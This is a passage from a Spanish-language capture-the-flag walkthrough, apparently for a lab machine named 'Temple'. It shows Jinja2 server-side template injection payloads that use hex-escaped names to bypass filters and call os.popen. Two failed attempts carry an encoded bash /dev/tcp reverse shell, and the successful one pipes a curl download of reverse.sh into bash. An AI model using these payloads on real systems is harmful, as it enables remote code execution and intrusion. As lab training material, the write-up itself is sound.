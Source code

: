 ```
Payload Fallido: { {request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo “ YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjEyMy4xOTQvMTgwMCAwPiYx” | base64 -d | bash")|attr("read")() } }
Payload Fallido: { {request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo ”\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x30\x2e\x38\x2e\x31\x32\x33\x2e\x31\x39\x34\x2f\x31\x38\x30\x30\x20\x30\x3e\x26\x31” | bash")|attr("read")() } }
```
![](/assets/images/Temple/image035.png)

Por esta razon registraremos una cuenta donde el username va ser un payload que contenga un comando que realice una solicitud GET hacia un script Bash de mi sistema con curl hacia mi servidor web local con el fin de obtener su codigo a traves del body de la respuesta, y luego utilizando el operador `|` ejecutaremos su comando con el interprete bash del sistema destino y de esa manera obtendremos una reverse shell mediante la vulnerabilidad SSTI.

```
Payload Exitoso: { { request|attr("application")|
attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|
attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|
attr("popen")("curl http://10.8.123.194/reverse.sh |bash")|attr("read")() } }

```
![](/assets/images/Temple/image036.png)

![](/assets/images/Temple/image037.png)
